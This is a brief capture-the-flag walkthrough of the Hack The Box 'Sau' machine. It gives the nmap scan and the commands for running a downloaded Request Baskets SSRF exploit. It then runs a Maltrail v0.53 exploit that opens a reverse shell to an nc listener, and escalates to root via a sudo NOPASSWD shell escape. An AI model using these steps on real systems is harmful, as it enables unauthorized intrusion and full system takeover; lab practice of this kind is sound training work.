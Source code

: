 ![[Sau.png]]
#HackTheBox #Machines #Easy
## Scan Port
```bash
nmap -sCV -Pn {TARGET IP} -T4
```
The results, `22/tcp` `80/tcp` `55555/tcp`
## Connect to Sau
First add new hosts and TARGET IP in `/etc/hosts`. Open your browser with port 55555, because we can't use on port 80.
Create new basket, open basket and copy your basket. Search on your browser `Request basket exploit` and download it. In terminal, type this :
```bash
bash ./CVE-...sh {TARGET IP:PORT} {MY IP:PORT = 127.0.0.1:80}

//ex result
basket = cuyy123
```
The results is we're created new basket, open the basket with the token. Let's try paste the url basket on your browser, and see the result. Look, the result is different than before, on footer you can see `Matrail v.0.53`. So now, search `Maltrail v.0.53 exploits` and download it.
Listen the port use `nc` command
```bash
nc -lvnp 1234
```
Then, we run the exploit.py are downloaded earlier
```python
python3 exploit.py {IP tun0} {PORT} {TARGET IP:PORT}/cuyy123
```
RUN IT. Open the listen port, yeah we can connect, soo now we can find the flag. `ls` for list, `cat` for execute/read. flag 1 is user.txt on Puma users, just `cd ~` and `ls` you can find the flag of user. flag 2 is root.txt on Root directory, `sudo -l`, copy content of NOPASSWD, `sudo ...`, use shebang `!/bin/sh`. Now you're on Root user, `ls` then `cd root` then `ls` again.
Congratulations the last flag has been found by u hehehe.😁👍
![[Sau Clear.png]]